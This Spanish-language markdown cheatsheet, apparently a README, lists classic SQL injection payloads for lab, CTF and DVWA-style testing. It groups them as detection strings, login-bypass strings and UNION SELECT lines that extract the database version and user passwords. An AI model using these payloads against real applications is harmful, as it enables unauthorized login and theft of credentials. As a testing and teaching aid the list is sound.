 # 🔍 SQLIjection PayLoads Cheatsheet

>  Lista de SQL Injection payloads comunes agrupados por categorías. Son útiles para pruebas manuales en aplicaciones vulnerables, como en laboratorios, CTFs o entornos como DVWA, OWASP BWA, Mr. Robot, etc.



---

##  🧪 1. Pruebas básicas para detectar SQLi

' OR '1'='1
" OR "1"="1
' OR 1=1 --
" OR 1=1 --
' OR 'a'='a
' #
'-- 

### 🛡️ 2. Bypass de autenticación (login forms)

admin' --
admin' #
admin' or '1'='1
' or 1=1 limit 1; --
' or sleep(5) --  -- (para detectar blind SQLi)

### 📊 3. Enumeración de datos

' UNION SELECT null, version() -- 
' UNION SELECT null, database() --
' UNION SELECT user(), password FROM users --

